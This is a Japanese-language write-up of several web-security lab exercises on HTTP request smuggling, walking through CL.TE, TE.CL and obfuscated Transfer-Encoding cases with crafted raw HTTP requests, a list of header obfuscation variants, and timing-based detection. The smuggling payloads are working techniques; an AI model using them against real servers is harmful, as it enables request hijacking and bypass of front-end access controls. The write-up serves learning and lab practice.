# HTTP Request Smuggling
- [HTTP Request Smuggling](#http-request-smuggling)
  - [HTTP request smuggling, basic CL.TE vulnerability](#http-request-smuggling-basic-clte-vulnerability)
    - [Goal](#goal)
    - [Analyze](#analyze)
    - [Exploit](#exploit)
  - [HTTP request smuggling, basic TE.CL vulnerability](#http-request-smuggling-basic-tecl-vulnerability)
    - [Goal](#goal-1)
    - [Analyze](#analyze-1)
    - [Exploit](#exploit-1)
  - [HTTP request smuggling, obfuscating the TE header](#http-request-smuggling-obfuscating-the-te-header)
    - [Goal](#goal-2)
    - [Analyze \&\& Exploit](#analyze--exploit)
  - [HTTP request smuggling, confirming a CL.TE vulnerability via differential responses](#http-request-smuggling-confirming-a-clte-vulnerability-via-differential-responses)
    - [Goal](#goal-3)
    - [Analyze](#analyze-2)
      - [遅延を利用した特定 (CL.TE)](#遅延を利用した特定-clte)
      - [Responseの差分を使用した特定 (CL.TE)](#responseの差分を使用した特定-clte)
    - [Exploit](#exploit-2)
  - [HTTP request smuggling, confirming a TE.CL vulnerability via differential responses](#http-request-smuggling-confirming-a-tecl-vulnerability-via-differential-responses)
    - [Goal](#goal-4)
    - [Analyze](#analyze-3)
      - [時間遅延を利用した特定 (TE.CL)](#時間遅延を利用した特定-tecl)
      - [レスポンス差分](#レスポンス差分)
    - [Exploit](#exploit-3)

## HTTP request smuggling, basic CL.TE vulnerability

### Goal

Front-endとBack-endにサーバがあり、Front-endはTransfer-Encodingをサポートしておらず、GET. POSTを使用していないリクエストを拒否する。

クリア条件は、Back-endサーバが処理するリクエストが`GPOST`を使用しているように勘違いさせる。

### Analyze

`/`に対してリクエストを送ってみます。

defaultではGETです。

```text
GET / HTTP/2
Host: 0a0b00c20372a9bb839e5a5d006600ab.web-security-academy.net
Cookie: session=ENeUABQ9T7b9DFpvrpH3dnAc4P13LPhl
<redacted>

```

このリクエストは、POSTにしても同一の結果を得ることができます。

```text
POST / HTTP/2
Host: 0a0b00c20372a9bb839e5a5d006600ab.web-security-academy.net
Cookie: session=ENeUABQ9T7b9DFpvrpH3dnAc4P13LPhl
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
<redcated>


```

まずは、前提条件である`GET/POST`以外のリクエストを受け付けていないということを確認しておきます。


次に、Front-endはTransfer-Encodingをサポートしていないという条件を考えていきます。

HTTP/1では、`Content-Length`と`Transfer-Encoding`が同時にある場合、Content-Lengthを無視することで競合を回避しようとします。

Front-endがTransfer-Encodingをサポートしていないということは、Content-Legthを見ることになりますが、Back-endではTransfer-Encodingを見るはずです。


なんとなく方針が決まりました。

1. Front-endにすべてのメッセージをBack-endに転送させる
2. Back-endにはある位置箇所で区切るようにさせる。


コレによりリクエストが分割され後続リクエストの先頭にGが付きます。

### Exploit

```text
POST / HTTP/1.1
Host: 0ab700ee0357e6748519032700d100f2.web-security-academy.net
Cookie: session=g85hmwmJrWvKjtQESh1FzJJzvumQfPoT
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

このリクエストを複数回送るとクリアできるはずです。


## HTTP request smuggling, basic TE.CL vulnerability

### Goal
これもGPOSTにすればﾖｼです。

### Analyze

Front-endがTransfer-Encodingをサポートしていて、Back-endがTransfer-Encodingをサポートしていないラボです。

つまり、Transfer-EncodingですべてのRequest本文をBack-endに転送させ、Content-Lengthを利用してBack-endの解釈をいじり分割すれば良さそうです。

`request例`
```text
POST / HTTP/1.1
Host: 0a3d002704a22ff480ae352b0080000e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Transfer-Encoding: chunked

9e
GPOST / HTTP/1.1
Host: 0a3d002704a22ff480ae352b0080000e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

body=
0

```

こうすることで以下のような解釈になります


Back-endにはすべてのリクエストメッセージが転送されますがBack-endはTransfer-EncodingをサポートしていないためContent-Lengthを見ることになります。

つまり、以下のような解釈をします。


コレにより、`GPOST / ...`が宙に浮き皇族のリクエストとして扱われるため`GPOST`となります。

### Exploit

攻撃を通すためにいくつかの設定を行いましょう。

まずはInspectorで`HTTP/2` -> `HTTP/1.1`にします。

次に、`Burp > Repeater > Message modification`の`Update cntent length`のチェックをOFFにします。

こうしないとContent-Lengthが自動的に更新されうまく行きません。

```text
POST / HTTP/1.1
Host: 0a3d002704a22ff480ae352b0080000e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5d
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

body=
0


```


## HTTP request smuggling, obfuscating the TE header

### Goal

前回と同じ

### Analyze && Exploit

どちらも`Transfer-Encoding: chunked`を認識できてしまうため、`Transfer-Encoding: chunked`をいい感じにしてどちらかが解釈できないようにする必要があります。

まずはFront-Endが難読化を施したTransfer-Encodingを認識できない場合を考えてみます。

これはつまりFront-Endは、Content-Lengthを見るということです。


上記画像の状況ということになるが、この場合Conent-LengthをみてすべてのリクエストBodyがBack-endに飛ばされる。

Back-endでは、Transfer-Encodingをみるため以下のようになる。


とりあえずちまちまやっていくしかなさそう。


難読化の例としては以下がある。
```text
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```


これらをすべて試す必要がありそう。

- xchunked
  - 変化なし
- Transfer-Encoding : chunked
  - 変化なし
- Transfer-Encoding: chunked\r\nTransfer-Encoding: x
  - 500 Error


```
POST / HTTP/1.1
Host: 0a4d00d603ce8c8c80c1a37600a80067.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked
Transfer-Encoding: x

0

G
```

こうした時500 Errorになりました

なんとなく怪しいので`CL.TE`ではなく`TE.CL`もみてみます


うまく行きました。

```text
POST / HTTP/1.1
Host: 0a4d00d603ce8c8c80c1a37600a80067.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: x

5e
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 13

body=
0


```


## HTTP request smuggling, confirming a CL.TE vulnerability via differential responses

### Goal

HTTP Request Smugglingを利用して後続のリクエストで404を引き出せばおけ

### Analyze

今回は前提条件として、Front-end, Back-endどちらが何をサポートしているかはわかる状況です。(###Goalには書いていませんが、Labの紹介ページには書いてあります。)

まず特定をするとき、`遅延を利用`、`レスポンスの差分を使用`するという二択があるようです。

今回のラボは、CL.TEなのでCL.TEの説明だけをしておきます。

#### 遅延を利用した特定 (CL.TE)





Back-endの解釈をみると、Transfer-Encodingを解釈するのにも関わらず、`0\r\n\r\n`がないためどこがリクエストの区切りか理解できていません。

そのため、待ちが発生しレスポンスに遅延が出るというもの。

#### Responseの差分を使用した特定 (CL.TE)

これは今までやったCL.TEのラボと同じですが

```text
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

こう送った時、





こうなります。

この結果後続のリクエストの先頭に`GET /404 HTTP/1.1\r\nFoo: x...`が付きます。

特定方法を見たところで、方針を立ててみます。

まずは時間遅延を用いて、脆弱性があるかどうかを特定し、その後レスポンスの差分を使用して`404`を引き出してみます。

`正常 リクエスト・レスポンス例`


では時間遅延を見ていきましょう。

```text
POST / HTTP/1.1
Host: 0abc00760353b2c5800eee1b000c007e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

1\r\n
a\r\n
```



このように送った時、Front-endは`Content-Length`を見るため、全てのメッセージをBack-endに転送します。

Back-endはTransfer-Encodingを見るため、メッセージの末尾に`0\r\n\r\n`を期待しますが、今回はないため約10sの待ちが発生しました

```text
POST / HTTP/1.1
Host: 0abc00760353b2c5800eee1b000c007e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 11
Transfer-Encoding: chunked

1
a
0


```



待ちが発生しないようにするには、必要としている`0\r\n\r\n`をつけてあげれば良いです。

### Exploit

`GET /404 HTTP/1.1`誘発させる必要がありますが、これは特に難しくないです。

```text
POST / HTTP/1.1
Host: 0abc00760353b2c5800eee1b000c007e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Transfer-Encoding: chunked

1
a
0

POST /404 HTTP/1.1
S: 
```



このようにしてあげればOKです。

理由としては、



このようになるためです。

`POST /404 HTTP/1.1\r\ns: `は後続のリクエストの先頭につながります。


## HTTP request smuggling, confirming a TE.CL vulnerability via differential responses

### Goal

### Analyze

前回は、`CL.TE`の方法について確認しましたが、ここでは`TE.CL`の特定を確認しておきましょう。

#### 時間遅延を利用した特定 (TE.CL)





Content-Lengthは6なので、`0\r\n\r\n`+αを期待し、遅延が起きるというものです。

まぁ単純ですね。

#### レスポンス差分

これは、説明するまでもない気がするので行いません。

ではラボに戻りましょう。

`正常リクエスト・レスポンス`


まず、設定の確認をしておきます。

Burp > Settings > Repeater > Message modificationの`Update content length`のチェックを外しておきましょう。

これにより、Content-Lengthが自動で更新されなくなります。



上記設定が完了したら、時間遅延を確認していきます



このリクエストでは約10sかかりました。

これは、Back-endが`Content-Length`を見るため`0\r\n\r\n` + 3byteを待つため発生するものでした。

つまり、`Content-Length: 5`にすれば遅延は起きません。



特定ができたので`404`を引き起こしましょう。

### Exploit

```text
POST / HTTP/1.1
Host: 0a0c00bc03d443dc81ef8e7e0072006e.web-security-academy.net
Cookie: session=zG2nJ68LpFa34qkPc36ifKehjV1Q9N2fContent-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

x=1
0


```

